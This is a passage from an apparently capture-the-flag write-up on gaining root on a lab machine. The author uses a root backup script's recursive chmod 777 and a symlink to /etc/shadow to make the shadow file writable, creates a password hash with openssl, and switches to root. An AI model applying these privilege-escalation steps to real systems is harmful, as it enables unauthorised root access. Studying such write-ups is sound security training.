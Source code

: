 ```
giovanni@teacher:~/work$ ls -l /etc/shadow
-rwxrwxrwx 1 root shadow 961 Jun 27  2018 /etc/shadow
```
Now we can reuse giovanni /etc/shadow password or create a new password using openssl:
```
[root@kali Teacher ]$ openssl passwd -6 -salt xyz password
$6$xyz$ShNnbwk5fmsyVIlzOf8zEg4YdEH2aWRSuY4rJHbzLZRlWcoXbxxoI0hfn0mdXiJCdBJ/lTpKjk.vu5NZOv0UM0
```
now we can su to root providinf the password 'password'
```
giovanni@teacher:~/work$ su -
Password:
root@teacher:~# id
uid=0(root) gid=0(root) groups=0(root)
```
and we owned root.
For the sake of knowledge, now that we are root, let's examine again the backup script:
```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```
If we try to run this manually, with the tmp folder replaced with the symlink to /etc/shadow we can see in the stderr the following output:  
```
courses/algebra/
courses/algebra/answersAlgebra
tar (child): tmp/backup_courses.tar.gz: Cannot open: Not a directory
tar (child): Error is not recoverable: exiting now
tar: Child returned status 2
tar: Error is not recoverable: exiting now
/usr/bin/backup.sh: line 4: cd: tmp: Not a directory
tar: backup_courses.tar.gz: Cannot open: No such file or directory
tar: Error is not recoverable: exiting now
```
So, the script:
* changes directory to /home/giovanni/work
* tar a file without success (because tmp is 'Not a directory')
* cd to tmp tha fails (because tmp is 'Not a directory')
* the tar extraction fails again because the previous archive has not been created, so it gives 'No such file or directory'
* and then recursively chmod with 777 the current directory which is /home/giovanni/work (containing the symlink to /etc/shadow as well)
